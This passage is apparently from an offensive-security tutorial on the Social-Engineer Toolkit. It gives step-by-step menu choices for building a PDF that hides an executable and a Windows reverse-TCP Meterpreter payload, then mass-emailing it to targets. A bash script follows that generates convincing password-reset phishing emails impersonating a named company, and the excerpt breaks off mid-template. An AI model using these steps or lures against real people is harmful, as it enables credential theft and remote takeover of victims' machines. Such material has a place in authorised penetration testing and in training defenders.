 ```
```

### Spear-Phishing Attacks

Spear-phishing remains one of the most effective initial access techniques. SET offers several spear-phishing methods:

```
   1) Perform a Mass Email Attack
   2) Create a FileFormat Payload
   3) Create a Social-Engineering Template
   4) Create a Colombian Cocaine Phishing Attack
   5) Return to Main Menu
```

#### Creating a Sophisticated Phishing Campaign

Let's walk through creating a targeted spear-phishing attack:

1. From the main menu, select `1) Social-Engineering Attacks`
2. Select `1) Spear-Phishing Attack Vectors`
3. Choose `2) Create a FileFormat Payload`
4. Select the payload format (e.g., `1) Adobe PDF Embedded EXE Social Engineering`)
5. Choose your payload delivery method (e.g., `2) Windows Reverse_TCP Meterpreter`)
6. Enter your listener IP and port
7. The payload will be generated in `/root/.set/template.pdf`

After creating the payload, return to the spear-phishing menu and select `1) Perform a Mass Email Attack` to deliver the payload to targets.

#### Enhanced Phishing Script

While SET provides a user-friendly interface, the following script enhances its capabilities by generating more convincing phishing templates:

```bash
#!/bin/bash
# enhanced_phishing.sh - Create convincing phishing templates with SET

# Configuration
COMPANY="Target Corporation"
DOMAIN="targetcorp.com"
TEMPLATE_DIR="/root/.set/phishing_templates"
OUTPUT_DIR="/root/phishing_campaign"

# Create necessary directories
mkdir -p "$TEMPLATE_DIR"
mkdir -p "$OUTPUT_DIR"

# Generate company-specific templates
generate_template() {
    local template_type=$1
    local output_file="$TEMPLATE_DIR/${template_type}.template"
    
    case "$template_type" in
        password_reset)
            cat > "$output_file" << EOF
Subject: Important: Your $COMPANY Password Will Expire Soon

<html>
<body style="font-family: Arial, sans-serif; font-size: 14px; color: #333333;">
<img src="https://$DOMAIN/logo.png" alt="$COMPANY Logo" style="height: 60px;">
<p>Dear $COMPANY Employee,</p>
<p>Our records indicate that your password will expire in <b>24 hours</b>. To ensure uninterrupted access to company resources, please update your password immediately.</p>
<p><a href="https://portal.$DOMAIN/password-reset" style="background-color: #0078d4; color: white; padding: 10px 15px; text-decoration: none; border-radius: 4px;">Reset Password Now</a></p>
```